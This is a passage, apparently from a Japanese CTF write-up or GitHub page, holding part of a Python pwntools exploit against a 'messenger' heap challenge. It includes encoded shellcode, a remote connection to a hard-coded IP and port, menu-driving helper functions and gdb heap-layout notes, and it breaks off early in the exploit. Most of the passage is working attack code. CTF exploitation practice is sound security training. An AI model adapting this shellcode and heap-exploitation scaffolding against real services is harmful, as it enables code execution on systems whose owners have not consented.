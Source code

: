 ```python
shellcode += '\x73\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\xea\x6a\xdc\xfa\xcc\xc1\x54\x11\xe9\x3f\xab\x10\xec'
shellcode += '\x7a\x28\x3b\x09\xb6\xec\x4e\xe7\x7a\x7b\x3b\x09\xb7'
shellcode += '\xd6\x8b\x8c\x7a\x7b\x73\xaf\x33\xed\x0d\xab\x09\x13'
shellcode += '\x73\xd6\x06\xcc\xea\x62\x75\x7e\x73'

# r = process('./messenger-patched')
r = remote('110.10.212.137',  3333)

#  _ __ ___   ___  ___ ___  ___ _ __   __ _  ___ _ __
# | '_ ` _ \ / _ \/ __/ __|/ _ \ '_ \ / _` |/ _ \ '__|
# | | | | | |  __/\__ \__ \  __/ | | | (_| |  __/ |
# |_| |_| |_|\___||___/___/\___|_| |_|\__, |\___|_|
#                                     |___/
# [L]eave message
# [R]emove message
# [C]hange message
# [V]iew message
# [Q]uit
# >>

def choose_action(c):
    r.recvuntil('[Q]uit\n>> ')
    r.sendline(c)

def leave_message(n, s):
    choose_action('L')
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def remove_message(i):
    choose_action('R')
    r.recvuntil('index : ')
    r.sendline(str(i))

def change_message(i, n, s):
    choose_action('C')
    r.recvuntil('index : ')
    r.sendline(str(i))
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def view_message(i):
    choose_action('V')
    r.recvuntil('index : ')
    r.sendline(str(i))
    return r.recvuntil('\n[L]eave')[:-len('\n[L]eave')]

def quit():
    choose_action('Q')

# add 1st message
leave_message(4, 'AAAA')

# gdb-peda$ x/50xg 0x603000 <- heap base
# 0x603000:	0x0000000000000018	0x0000000000603018
# 0x603010:	0x0000000000000000	0x0000000000000031 <- 1st chunk size
# 0x603020:	0x0000000000603048	0x0000000000603000 <- fd, bk
# 0x603030:	0x0000000041414141	0x0000000000000000
```

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.